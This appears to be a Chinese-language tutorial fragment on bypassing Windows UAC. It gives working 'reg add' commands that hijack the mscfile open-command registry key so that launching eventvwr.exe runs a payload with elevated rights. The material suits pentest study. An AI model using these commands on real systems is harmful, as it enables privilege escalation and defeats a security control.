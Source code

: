 ```
先进行筛选，选择not found
当运行eventvwr后，会弹出很多该进程的动作信息，我们要找到其中没有被发现的command值，只要在里面写入命令，就会使得打开这个文件自动执行恶意命令。
```

![image-20241016135403303](操作系统提权/image-20241016135403303.png)	

```
于是找到有not found的command值，只要在里面写入值恶意脚本，那么就可以随便绕过UAC了。
```

![image-20241016135442647](操作系统提权/image-20241016135442647.png)	

```
注册表中找到这个指定路径，添加恶意命令来执行恶意脚本。
reg add HKCU\Software\Classes\mscfile\shell\open\command /f /ve /t REG_SZ /d "cmd.exe /c C:\Users\hsw\Desktop\shell.exe"
reg add HKCU\Software\Classes\mscfile\shell\open\command /v DelegateExecute /t REG_SZ
执行这个白名单文件，来自动执行注册表设置好的恶意命令。
shell eventvwr.exe

命令参数解释:
/ve 指的是设置该键的默认值
/t REG_SZ：表示要添加的值类型是 REG_SZ，即一个字符串值
/d 指定数据
/v 表示要设置某个特定的键值名称
/f 表示强制添加，不需要提示。
```

